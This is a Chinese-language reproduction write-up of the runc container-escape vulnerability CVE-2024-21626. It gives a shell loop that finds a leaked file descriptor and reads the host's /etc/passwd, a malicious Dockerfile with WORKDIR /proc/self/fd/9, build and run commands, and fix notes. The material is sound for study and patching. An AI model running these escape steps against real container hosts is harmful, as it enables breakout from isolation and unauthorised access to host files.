 漏洞复现

- https://www.ddosi.org/cve-2024-21626/
- https://mp.weixin.qq.com/s/kMmeMusedbd1oeozUrX2gQ
- https://labs.withsecure.com/publications/runc-working-directory-breakout--cve-2024-21626

1、复现环境：

uname -a
Linux localhost.localdomain 5.10.0-136.12.0.88.ctl3.x86_64 #1 SMP Fri Jul 28 08:13:12 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux

系统：ctyunos-23.01-230117-x86_64-dvd.iso

docker版本：
    Client:
    Version:           20.10.12

    runc:
    Version:          1.1.4


2、复现步骤

2.1 确定本机上泄露的文件描述符

```shell
#! /bin/bash
for i in {4..20}; do
docker run -it --rm -w /proc/self/fd/$i ubuntu:18.04 bash -c "cat /proc/self/cwd/../../../etc/passwd"
done
```


失败的情况：
docker: Error response from daemon: failed to create shim: OCI runtime create failed: runc create failed: unable to start container process: error during container init: mkdir /proc/self/fd/8: not a directory: unknown: Are you trying to mount a directory onto a file (or vice-versa)? Check if the specified host path exists and is the expected type.


成功的情况：
ERRO[0000] error waiting for container: context canceled 
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown

根据以上情况确定本机上泄露的描述符为9

2.2 恶意docker镜像

替换dockerfile中的WORKDIR 中的ID

```
FROM ubuntu:18.04
RUN apt-get update -y && apt-get install netcat -y

WORKDIR /proc/self/fd/9
```


2.3 构建镜像

docker  build .  -t cve-2024-21626


2.3 执行容器逃逸

docker run -it --rm cve-2024-21626 bash

成功后，可以访问到宿主机目录文件，当前的工作目录是宿主机/sys/fs/cgroup。



3. 漏洞修复

a. 检查工作目录是否确实在容器内部（通过os.Getwd命令是否返回ENOENT来检查）。这会显式阻止 runC 在非容器工作目录中执行容器进程，从而消除前述提到的攻击方式1 和 2的威胁，即使在 fd 泄漏的情况下也是如此。

b. 在runC init的最后阶段和execve之前关闭所有内部 runC 文件描述符。这确保了内部文件描述符不能被用作execve的参数，从而消除攻击 3a 和 3b的威胁（即使在 fd 泄漏的情况下也同样有效）。

c. 修复导致这些漏洞可被利用的特定 fd 泄漏（标记/sys/fs/cgroup为O_CLOEXEC）。

d. 在执行runC init之前标记所有非 stdio 文件为O_CLOEXEC，以防止未来还有runC init文件描述符泄漏。